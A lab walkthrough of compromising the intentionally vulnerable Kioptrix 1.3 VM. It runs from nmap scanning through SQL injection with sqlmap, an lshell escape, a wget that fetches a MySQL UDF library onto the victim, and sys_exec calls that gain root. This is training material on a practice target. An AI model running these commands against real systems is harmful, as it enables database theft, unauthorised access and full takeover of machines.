# Kioptrix 1.3 Writeup

This vulnerable virtual machine was obtained from [VulnHub](https://www.vulnhub.com/entry/kioptrix-level-13-4,25/ "URL for kioptrix 1.3"). The kioptrix series are intended for use with VMWare, but by following the instructions found [here](http://hypn.za.net/blog/2017/07/15/running-kioptrix-level-1-and-others-in-virtualbox/ "running kioptrix in VirtualBox"), you can get the virtual machines to work with VirtualBox.

## Information gathering

By now, we know that our attacker's IP address is 10.0.2.5 from the result of the `ifconfig` command. To find the IP of the target, we'll scan the local subnet with `nmap -sn 10.0.2.0/24` to find what hosts are on the network.



The two VirtualBox hosts are `10.0.2.3` and `10.0.2.8`, and VirtualBox uses the former for its nameserver, so our target is `10.0.2.8`.

## Scanning

Now, we'll use `nmap -sV 10.0.2.8` to enumerate the services running on the target, and this will provide an attack surface for us.



We see that the target has several ports open, and we'll go down the list to find an exploitable one.

## Gaining access

From previous engagements with the past Kioptrix virtual machines, I know that the version of OpenSSH running is not one that we can easily exploit. You can look through my previous writeups to see how I came to that conclusion, or you can run `searchsploit openssh` and see that none of the available exploits are that useful for us.

Instead, we'll target port 80, which is running the http service, meaning that if we go to http://10.0.2.8 in a web browser, we'll get a web page back.



We can also run an application called OWASP ZAP which will inform us of any vulnerabilities in the web app. Loading up ZAP and putting http://10.0.2.8 into the target field will perform a scan of the web application, and we can see the results.



It looks like the checklogin.php page is vulnerable to an SQL injection. Looking at the request sent, we can see that the HTTP POST method is used with parameters of "myusername", "mypassword", and "Login". We can take this information and use another tool, sqlmap, to perform automated SQL injections so that we can find valid usernames and passwords. We run this tool with the command `sqlmap -u "http://10.0.2.8/checklogin.php" --data "myusername=test&mypassword=test&Submit=login" --dump --level=5 --risk=3`. This tells sqlmap to target the checklogin.php page on 10.0.2.8, using the data string provided in an HTTP POST request, dump the resulting database table entries, and operate with high-level and high-risk tests.



The resulting attack gives us the usernames and passwords of two users, john and robert. Logging in to the web page as either user just displays the username and password, so instead, we'll use SSH to connect to the vulnerable machine with the command `ssh john@10.0.2.8` and entering the password when prompted.

## Elevating Access



When we log in as either john or robert, we're put into a LiGoat shell that only allows us to perform a limited set of commands, `?`, `help`, `cd`, `clear`, `echo`, `exit`, `ll`, `lpath`, and `ls`. I hadn't heard of `ll` or `lpath` before, so I tried them out, and it looks like `ll` is just an alias for `ls -l`, and `lpath` defines the path that the user is allowed to be in. Running a command other than the ones listed results in an error that the command is unknown, and attempting to explore outside of the allowed path gives a warning on the first attempt and kicks you out of the system on the second attempt.

Using `ls -al`, we can see the dot files that are in our current directory. I hadn't heard of the .lhistory file before, so after some googling, I came to discover that it represents the presence of lshell, which is a limited shell environment [written in Python](https://github.com/ghantoos/lshell "Link to the lshell GitHub repo"). Doing some [research](https://www.aldeid.com/wiki/Lshell "lshell bypass") into lshell showed that it's possible to break out of the limited shell environment with the command `echo os.system('/bin/bash')`. This is because lshell used eval() to strip quotes from the command line, and as a result, it allowed for the execution of valid Python expressions.



Now that we're in a regular shell environment, we still need to get root access to the machine. Since this machine is running as a web server, I thought to check the /var/www directory to see if there was anything of interest.



Browsing the files with `cat` showed something interesting in checklogin.php, hard-coded credentials for access to an SQL database.



It looks like we can log in to the MySQL database with the username "root" and an empty password. Doing so with `mysql -u root` shows that the credentials are valid.



Doing some more [research](https://www.adampalmer.me/iodigitalsec/2013/08/13/mysql-root-to-system-root-with-udf-for-windows-and-linux/ "MySQL privilege escalation") shows us that it's possible to escalate our privileges if we already have root access to a MySQL database. To do so, we'll first need to download a [shared object file](https://github.com/mysqludf/lib_mysqludf_sys/blob/master/lib_mysqludf_sys.so "Link to the shared object file") onto our victim. This can be done with the command `wget --no-check-certificate https://raw.githubusercontent.com/mysqludf/lib_mysqludf_sys/master/lib_mysqludf_sys.so -O /home/john/.`.



This exploit works by loading this file into a new table row and dumping that table row into a new file in the /usr/lib directory. We do this through MySQL ecause our regular user is unable to write to this directory, but because we're running MySQL as the root user, we're able to write to there. Then, we'll create a new function in MySQL that will point to the code in the new file, and then we're able to execute arbitrary system commands with that MySQL function.

However, halfway through the steps to set up the exploit, I found out that the /usr/lib/lib\_mysqludf\_sys.so file already existed, so it looks like the exploit had been already loaded in the system. Testing it out with the MySQL command `select sys_exec('id > /tmp/out; chown john.john /tmp/out');` will write the results of the `id` command to the file /tmp/out, and if we `cat` that file, we see that the program runs as root.



Now that we know we can run arbitrary commands as root, we'll run the MySQL command `select sys_exec('adduser john admin');` which will add the john user to the admin group, giving them access to the `sudo` command. Exiting MySQL with `exit;`, running `sudo su root`, and entering john's password when prompted shows that we are now root!


